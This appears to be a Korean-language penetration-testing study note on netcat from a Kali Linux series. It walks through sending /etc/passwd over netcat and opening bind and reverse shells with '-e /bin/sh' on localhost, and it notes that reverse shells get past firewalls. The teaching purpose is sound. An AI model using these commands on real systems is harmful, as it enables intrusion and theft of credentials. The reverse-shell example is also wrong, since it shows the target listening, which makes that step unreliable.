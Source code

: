 <center><font size="5em" color="#0091ff">칼리리눅스part.2</font> </center>


<font size="3em" color="#0091ff">
<br>
<font size="4em" color="#0091ff">칼리리눅스part.2</font><br>
19_넷캣<br><br>

'nc'라는 명령어를 이용하는 일종의<br> 리눅스명령어 모의해킹분야에<br>
다재다능한 명령어<br><br>
클라이언트 모드<br>
서브모드 둘다 구동가능
<br>이 넷캣 하나로 서로 통신이 가능함<br>

<br>
기본 옵션을 확인 할려면 nc -h로 확인이 가능하다<br>

ex)<br>
왼쪽은 해커, 오른쪽은 공격타켓 으로 가정<br>
오른족 공격타켓에 nc -lvp 4444를 입력<br>
<br>
그리고 왼쪽 클라이언트에 nc 127.0.0.1 4444를 입력하면<br>
이제 양쪽 클라이언트는 서로 통신이 가능해진다.<br>

-----------------------------------------------------
<br>
넷캣으로 파일전송이 가능하다.<br>
<br>
ex)<br>
오른쪽 클라이언트에<br>

nc -lvp 4444 > passwd<br>
<br>

왼쪽 클라이언트에<br>
nc -q 0 127.0.0.1 4444 < /etc/passwd<br>

참고로 '>'와'<'는 리다이렉트이다 이거와 같이사용하면<br>
넷캣이 열려있는동안 서로 파일을 만들고,옮기고,삭제가 가능하다<br>

그리고 '-q 0' 옵션이 있는데 이건 파일의 전송이 끝나면<br> 종료시켜주는 옵션이다<br>

-----------------------------------------------------
<br><br>
20_바인드쉘과 리버스쉘

넷캣의 정말 강력한 기능 인 이걸로 커멘드 쉘 을 생성 시킬 수 <br>있다는 점이다 이러한 넷캣이 모의해킹의 필수 프로그램이 <br>되었으며 종종 해킹에 성공했을때 원격으로 쉘 을 생성시킬때 <br>활용됩니다<br>
<br>

바인드쉘<br>
타켓쪽에 서버포트가 열리고 해커쪽에서 타켓으로 접속을 생성시키는 쉘<br>
- 오른쪽 서버쪽에 'nc -lvp 4444 -e /bin/sh' 입력
- -e 는 접속이 되고 나면 실행할 명령어를 지정해주는 옵션이다
- 이제 왼쪽 해커 쪽에서 nc 127.0.0.1 4444로 접속을 시도
- 자 이제 오른쪽 서버는 커렉트가 되었다고 하고
- 반면 해커쪽은 각종 명령어를 입력할 수 있다.


리버스쉘<br>
리버스는 반대로 의미하는데 해커 즉 우리쪽에서 서버포트를 열고<br> 저쪽 타켓에서는 우리쪽으로 접속하여 생성시키는 쉘<br>
- 왼쪽 해커 쪽에서 'nc -lvp 4444'입력해서 리스닝 시도
- 그리고 오른쪽 타켓은 'nc -lvp 4444 -e /bin/sh' 입력
- 아이러리 하는건 명령어는 해커쪽 이 명령어를 입력할 수 있다.

참고) 바인드 쉘 보다 리버스 쉘을 하는건<br> 사유는 바로 방화벽 때문이다 방화벽이란? 간단하게 이야기하면<br> 특정 포트를 차단하는 프로그램이나 장비를 말함 웬만한 기업에는 거의 높은확률<br> 십중팔구 방화벽이 구축되어있다 그래서 이러한 귀찮은 방화벽을 우회하기 위해 <br>리버스 쉘을 사용







</font>